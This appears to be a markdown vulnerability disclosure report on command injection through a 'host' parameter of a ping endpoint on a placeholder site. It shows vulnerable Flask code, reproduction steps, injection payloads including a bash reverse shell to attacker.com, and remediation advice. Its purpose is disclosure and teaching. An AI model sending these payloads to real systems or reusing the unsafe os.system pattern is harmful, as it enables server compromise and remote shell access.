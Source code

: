 # 🐞 Command Injection Vulnerability Report

---

## 📌 Title

**Unauthenticated Command Injection via `host` Parameter**

---

## 📝 Description

A **Command Injection** vulnerability was identified in the `host` parameter of the application. This allows an attacker to inject arbitrary system-level commands that are executed on the server. The vulnerability exists due to improper input handling in a system call where user input is directly concatenated into an OS command.

---

## 🎯 Affected Endpoint

- **URL**: `https://vulnerable-website.com/ping?host=`
- **Method**: `GET`
- **Parameter**: `host`

---

## ⚙️ Vulnerable Code Example (Python)

```python
# ❌ Vulnerable Implementation
@app.route("/ping")
def ping():
    host = request.args.get("host")
    os.system("ping -c 4 " + host)
```

---

## 🧪 Steps to Reproduce

1. Open a browser or proxy tool like Burp Suite.
2. Navigate to the following URL to trigger basic functionality:

```
https://vulnerable-website.com/ping?host=127.0.0.1
```

3. Modify the request to inject a command:

```
https://vulnerable-website.com/ping?host=127.0.0.1;whoami
```

4. Observe the response showing server-side execution output, e.g.,

```
ping output...
www-data
```

✅ This confirms the vulnerability.

---

## 💣 Exploit Payloads

### 🔍 Basic Injection

```http
https://vulnerable-website.com/ping?host=127.0.0.1;id
```

### 🕵️‍♂️ List Files

```http
https://vulnerable-website.com/ping?host=127.0.0.1;ls+-la
```

### 📤 Reverse Shell (Linux)

```http
https://vulnerable-website.com/ping?host=127.0.0.1;bash+-c+'bash+-i+>&+/dev/tcp/attacker.com/4444+0>&1'
```

---

## 🔥 Impact

- Full system compromise
- File system access
- Sensitive file read (e.g., `/etc/passwd`)
- Reverse shell and remote persistence
- Privilege escalation (if service runs as root)
- Lateral movement in internal networks

---

## 🔧 Recommended Remediation

- **Never** use raw user input in system-level commands.
- Use parameterized functions and secure APIs.
- Validate input strictly using a whitelist.
- Sanitize input to block special characters (`;`, `&`, `|`, etc.).
- Use safe libraries like Python’s `subprocess.run` with argument lists:

```python
# ✅ Safe Example
subprocess.run(["ping", "-c", "4", host], check=True)
```

- Run services as a non-root user with limited privileges.

---

## 🔐 Security Best Practices

- Implement strict input validation and sanitization.
- Use allowlists over blocklists for parameters.
- Employ Web Application Firewalls (WAF).
- Regularly audit server logs for suspicious command execution.
- Run automated vulnerability scanners periodically.

---

## 🧾 References

- [OWASP - Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [GTFOBins - Linux Post-Exploitation](https://gtfobins.github.io/)
- [PayloadsAllTheThings - Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

---

## 📅 Report Date

**2025-06-17**

---

## 🧑‍💻 Reported By

- **Security Researcher**: raghav  
- **Tools Used**: Burp Suite, Manual Testing, cURL  
- **Severity**: Critical

---

> ⚠️ **Disclaimer**: This is a responsibly disclosed vulnerability. Please confirm and acknowledge. 